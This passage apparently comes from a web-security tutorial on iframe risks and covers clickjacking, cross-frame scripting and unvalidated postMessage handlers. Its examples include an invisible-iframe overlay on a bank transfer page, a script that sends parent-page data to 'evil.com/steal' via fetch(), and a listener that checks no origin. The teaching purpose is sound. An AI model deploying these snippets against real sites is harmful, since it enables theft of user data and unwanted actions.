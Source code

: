 However, iframes come with significant security risks that many developers overlook:

### 1. Clickjacking attacks

Clickjacking tricks users into clicking on something different from what they perceive. An attacker overlays an invisible iframe containing a legitimate action (like "Delete Account") over a harmless-looking button.

```html
<!-- Malicious page -->
<style>
  .invisible-iframe {
    position: absolute;
    top: 0;
    left: 0;
    opacity: 0.1; /* Nearly invisible */
    z-index: 1000;
  }
</style>

<button>Win a Free iPhone!</button>
<iframe src="https://bank.com/transfer-money" class="invisible-iframe"></iframe>
```

### 2. Cross-Frame scripting (XFS)

When iframes can execute JavaScript, they may access or manipulate the parent page's DOM, steal data, or perform actions on behalf of the user.

```javascript
// Malicious iframe code
if (parent !== window) {
  // Access parent window data
  var userData = parent.document.getElementById('user-data').innerText;
  
  // Send stolen data to attacker
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: userData
  });
}
```

### 3. Unvalidated postMessage communication

Modern web applications use `postMessage` for secure cross-frame communication, but without proper validation, this becomes a vulnerability:

```javascript
// Vulnerable code - accepts messages from any origin
window.addEventListener('message', function(event) {
  // DANGEROUS: No origin validation
  if (event.data.action === 'updateUser') {
    updateUserProfile(event.data.userData);
  }
});
```
